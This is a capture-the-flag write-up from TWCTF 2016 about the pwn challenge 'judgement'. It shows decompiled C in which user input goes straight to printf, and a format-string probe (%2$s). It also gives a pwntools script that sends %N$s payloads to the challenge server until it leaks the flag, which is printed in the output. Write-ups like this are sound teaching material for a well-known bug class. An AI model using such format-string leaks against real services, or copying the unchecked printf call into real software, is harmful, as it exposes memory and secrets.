 ```yaml
---
title: '[TWCTF-2016: PWN] judgement Writeup'
author: Megabeets
type: post
date: 2016-09-04T23:54:32+00:00
url: /twctf-2016-pwn-judgement/
categories:
  - TWCTF 2016
  - Writeups
tags:
  - CTF
  - PWN
  - TWCTF
  - Writeups

---
```

Guest post by Shak.

> **Challenge description:**  
> _Host : pwn1.chal.ctf.westerns.tokyo_  
> _Port : 31729_  
> [judgement][1]{.attachment}

* * *

```sh
[Megabeets]$ nc pwn1.chal.ctf.westerns.tokyo 31729
Flag judgment system
Input flag &gt;&gt; FLAG
FLAG
Wrong flag...

```


<span style="font-weight: 400;">Let’s check the binary. The following function is reading the flag from a local file on the server, so this binary will not reveal the flag, but further examining it might.</span>

```c
int __cdecl load_flag(char *filename, char *s, int n)
{
  int result; // eax@2
  FILE *stream; // [sp+18h] [bp-10h]@1
  char *v5; // [sp+1Ch] [bp-Ch]@5

  stream = fopen(filename, "r");
  if ( stream ) {
    if ( fgets(s, n, stream) ) {
      v5 = strchr(s, 10);
      if ( v5 )
        *v5 = 0;
      result = 1;
    }
    else { result = 0;}
  }
  else { result = 0; }
  return result;
}

```


<span style="font-weight: 400;">Next we can see the main function which gets our input and compares it to the flag. </span>

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  void *v3; // esp@1
  int result; // eax@2
  int v5; // ecx@6
  char input; // [sp+0h] [bp-4Ch]@1
  int v7; // [sp+40h] [bp-Ch]@1
  int *v8; // [sp+48h] [bp-4h]@1

  v8 = &argc;
  v7 = *MK_FP(__GS__, 20);
  v3 = alloca(144);
  printf("Flag judgment system\nInput flag &gt;&gt; ");
  if ( getnline(&input, 64) ) {
    printf(&input);
    if ( !strcmp(&input, flag) )
      result = puts("\nCorrect flag!!");
    else
      result = puts("\nWrong flag...");
  }
  else {
    puts("Unprintable character");
    result = -1;
  }
  v5 = *MK_FP(__GS__, 20) ^ v7;
  return result;
}

```


<span style="font-weight: 400;">What it also does, is printing our input with no formatting (line 15), which means we can use <em>printf</em> format to read data from the stack. First of all, let’s check if this will work by trying to print the second value from the stack as a string</span>

```sh
Flag judgment system
Input flag &gt;&gt; %2$s
פJr≈
Wrong flag…
```


<span style="font-weight: 400;">It works, but no luck there. I wrote a simple python script that will print the first 300 values from the stack and search for the flag:</span>

```python
#!/usr/bin/python

from pwn import *

for i in xrange(1,300):
        r = remote('pwn1.chal.ctf.westerns.tokyo', 31729)
        r.recv()
        r.sendline("%{}$s".format(i))
        try:
                res = r.recv()
                if "TWCTF" in res:
                        print "The flag is: " + res
                        break
        except:
                pass
        r.close()
```


<span style="font-weight: 400;">And indeed we get it:</span>

```sh
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
[*] Closed connection to pwn1.chal.ctf.westerns.tokyo port 31729
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
.
.
.
[+] Opening connection to pwn1.chal.ctf.westerns.tokyo on port 31729: Done
The flag is: TWCTF{R3:l1f3_1n_4_pwn_w0rld_fr0m_z3r0}
Wrong flag...

```


<div class="nf-post-footer">
  <p style="text-align: right">
    <a href="https://www.megabeets.net/about.html#vegan"><img src="../uploads/megabeets_inline_logo.png" />Eat Veggies</a>
  </p>
</div>

 [1]: https://twctf7qygt6ujk.azureedge.net/uploads/judgement-4da7533784aa31b96ca158fbda9677ee8507781ead6625dc6d577fd5d2ff697c